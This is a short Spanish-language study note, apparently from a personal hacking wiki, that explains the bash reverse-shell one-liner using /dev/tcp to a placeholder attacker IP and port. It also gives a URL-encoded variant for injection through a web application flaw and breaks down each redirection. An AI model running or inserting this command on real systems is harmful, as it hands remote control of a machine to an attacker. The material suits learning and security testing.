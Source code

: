 
---

### Comando para Entablar una Reverse Shell

El siguiente comando se utiliza para crear una **reverse shell** desde una máquina víctima hacia una máquina atacante. Esto es útil cuando tienes acceso a ejecutar comandos en la máquina víctima, por ejemplo, a través de una vulnerabilidad en una aplicación web.

El comando es el siguiente:

```bash
bash -c "bash -i >& /dev/tcp/[ip_atacante]/[puerto] 0>&1"
```

Sin embargo, si estás inyectando este comando en una URL, el carácter `&` es reservado y debe ser reemplazado por `%26`. El comando modificado para uso en una URL sería:

```bash
bash -c "bash -i >%26 /dev/tcp/[ip_atacante]/[puerto] 0>%261"
```

---

### Explicación Detallada del Comando

Vamos a desglosar el comando paso a paso para entender qué hace cada parte:

1. **`bash -c`**:
   - Este comando le dice a la shell (intérprete de comandos) que ejecute el siguiente string como un comando.
   - Es útil cuando quieres ejecutar un comando complejo o una cadena de comandos desde una sola línea.

2. **`bash -i`**:
   - Aquí se inicia una nueva instancia de `bash` en modo **interactivo** (`-i`).
   - El modo interactivo permite que la shell acepte entradas del usuario y muestre salidas, lo cual es esencial para una reverse shell.

3. **`>& /dev/tcp/[ip_atacante]/[puerto]`**:
   - Esta parte redirige la salida estándar (`stdout`) y la salida de error (`stderr`) de la shell a una conexión TCP.
   - `/dev/tcp/[ip_atacante]/[puerto]` es una característica de Bash que permite abrir una conexión TCP hacia la dirección IP y puerto especificados.
     - `[ip_atacante]`: Debes reemplazar esto con la dirección IP de la máquina atacante.
     - `[puerto]`: Debes reemplazar esto con el puerto en el que la máquina atacante está escuchando.
   - En resumen, esta parte envía la salida de la shell (lo que se escribe en la terminal) a través de la red hacia el atacante.

4. **`0>&1`**:
   - Esto redirige la entrada estándar (`stdin`) de la shell para que provenga de la misma conexión TCP.
   - En otras palabras, cualquier dato que el atacante envíe a través de la conexión TCP será tratado como entrada para la shell en la máquina víctima.
   - Esto permite que el atacante interactúe con la shell remota como si estuviera directamente en la máquina víctima.

---

[[bash]]
[[stder_stdout]]
[[Reverse Shell]]